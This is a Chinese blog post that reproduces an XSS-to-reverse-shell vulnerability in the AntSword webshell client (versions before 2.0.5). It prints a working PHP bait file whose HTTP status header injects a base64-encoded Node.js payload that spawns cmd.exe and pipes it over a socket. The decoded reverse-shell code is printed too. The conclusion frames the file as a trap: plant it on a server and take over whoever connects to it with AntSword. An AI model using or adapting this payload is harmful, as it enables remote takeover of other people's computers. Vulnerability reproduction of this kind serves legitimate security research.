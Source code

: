 ﻿---
layout: post
title: 漏洞复现蚁剑 Electron XSS反弹shell复现
date: 2019-09-19
categories: blog
tags: [漏洞复现，蚁剑]
description: 蚁剑 Electron XSS
---

####一、环境
>antsword2.0.5以前，antsword使用了Electron，Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
####二、复现过程
>phpstudy网站根目录添加webshell文件，ant.php，存在XSS
![avatar](/blob/master/_posts/images/antsword/1.png)

>phpstudy网站根目录添加webshell文件，ant.php
```
<?php
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
?>
```
>特别需要注意webshell的内容是base64编码之后的，编码之前为

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>本地nc监听端口
![avatar](images/antsword/2.png)

>使用蚁剑访问webshell
![avatar](images/antsword/3.png)

>webshell反弹成功
![avatar](images/antsword/4.png)

####三、总结
>适用范围：挂一个webshell在服务器上，等别人用蚁剑来连，连接之后就算蚁剑关闭，shell仍存在
参考链接：
[*][https://github.com/theLSA/CS-checklist](https://github.com/theLSA/CS-checklist)
[*][https://www.anquanke.com/post/id/176379](https://www.anquanke.com/post/id/176379)













